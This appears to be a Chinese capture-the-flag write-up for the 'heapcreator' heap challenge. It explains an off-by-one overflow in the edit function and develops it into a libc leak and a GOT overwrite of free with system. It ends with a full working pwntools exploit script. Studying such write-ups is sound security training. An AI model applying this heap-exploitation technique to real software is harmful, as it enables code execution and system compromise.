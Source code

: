 ## 0x001 程序分析

首先查看程序开启了哪些保护模式：

![](1.png)

使用IDA对程序进行分析，程序提供了对堆的创建、编辑、删除、显示功能。

**创建**

![](2.png)

创建用户使用的堆区之前，会先申请一个固定大小为16字节的堆区，来管理用户使用的堆区，这个堆管理区前8字节存放申请的堆空间大小，后8字节存放申请的堆区地址。而这个堆管理区地址存放在全局表heaparray中。

**编辑**

![](3.png)

通过堆管理区中存放的地址和大小，对用户使用的堆区进行编辑。

**删除**

![](4.png)

释放要删除的堆区以及管理区，并将全局表heaparray中相应的地址清零。

**显示**

![](5.png)

使用printf打印用户使用的堆区内容。

## 0x002 漏洞分析

该程序在编辑功能函数中，由于输入时可以输入的字节长度比申请的堆区长度多一个字节，因此存在一字节溢出漏洞，也就是off-by-one。

## 0x003 漏洞利用

该程序需要利用off-by-one漏洞将堆管理区中存放的地址和长度修改为任意地址和长度，这样就可以修改任意函数的真实地址，控制程序执行流程。

off-by-one漏洞需要利用溢出的一个字节，修改堆块中的size字段。

首先申请三个堆块
```
create_heap(0x18, "A")        # chunk0
create_heap(0x18, "B")        # chunk1
create_heap(0x18, "C")        # chunk2
```

此时堆区内容如下：

![](6.png)

此时可编辑chunk0，通过溢出的一个字节，将chunk1管理区的size修改为任意大小
```
payload = p64(0) * 3 + b"\x41"
edit_heap(0, payload)
```

此时堆区内容如下：

![](7.png)

可见，已经将chunk1管理区的size由0x21修改为了0x41，那么此时系统就会认为该堆区的大小在0x41的范围内。

此时，选择删除chunk1，那么就会将chunk1管理区和chunk1放入fastbins中，由于chunk1管理区的size被修改，所以会被分配到不同大小的链表中。
```
delete_heap(1)
```

此时堆区内容如下：

![](8.png)

可见fastbins中存在两个链，之前的chunk1管理区在0x40的链中，chunk1在0x20的链中。

此时再申请一个大小符合0x40的堆区，那么就会将之前的chunk1当作new_chunk1的管理区，chunk1管理区当作new_chunk1的用户区。
```
create_heap(0x32, "CCCC")
```

此时堆区内容如下：

![](9.png)

由于新申请的new_chunk1的长度为0x32，因此可以通过编辑new_chunk1，修改new_chunk1管理区中存放的地址和长度。
```
payload = p64(0) + p64(0) + p64(0) + p64(0x21) + p64(32) + p64(elf.got["free"])
edit_heap(1, payload)
```

可以将先前保存在new_chunk1管理区中的地址修改为free函数的got地址，那么通过输出功能函数就可以获取free函数的真实地址，可以通过计算获得system函数的真实地址。

最后再通过编辑功能函数，编辑new_chunk1，就可以将free函数的真实地址修改为system函数的真实地址，之后再次执行free函数即可获取系统权限。

最终exp如下：
```
from pwn import *
from LibcSearcher import *

p = process("./heapcreator")
elf = ELF("heapcreator")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

def create_heap(heap_len, payload):
    p.sendlineafter("Your choice :", str(1))
    p.sendlineafter("Size of Heap : ", str(heap_len))
    p.sendlineafter("Content of heap:", payload)

def edit_heap(idx, payload):
    p.sendlineafter("Your choice :", str(2))
    p.sendlineafter("Index :", str(idx))
    p.sendlineafter("Content of heap : ", payload)

def show_heap(idx):
    p.sendlineafter("Your choice :", str(3))
    p.sendlineafter("Index :", str(idx))
    
def delete_heap(idx):
    p.sendlineafter("Your choice :", str(4))
    p.sendlineafter("Index :", str(idx))
    
create_heap(0x18, "A")
create_heap(0x18, "B")
create_heap(0x18, "/bin/sh\x00")

payload = p64(0) * 3 + b"\x41"
edit_heap(0, payload)
delete_heap(1)

create_heap(50, "CCCC")

payload = p64(0) + p64(0) + p64(0) + p64(0x21) + p64(32) + p64(elf.got["free"])
edit_heap(1, payload)
show_heap(1)

p.recvuntil("Content : ")
free_real_addr = u64(p.recv(6).ljust(8, b'\x00'))

libcbase = free_real_addr - libc.sym["free"]
system_addr = libcbase + libc.sym["system"]

edit_heap(1, p64(system_addr))
delete_heap(2)

p.interactive()
```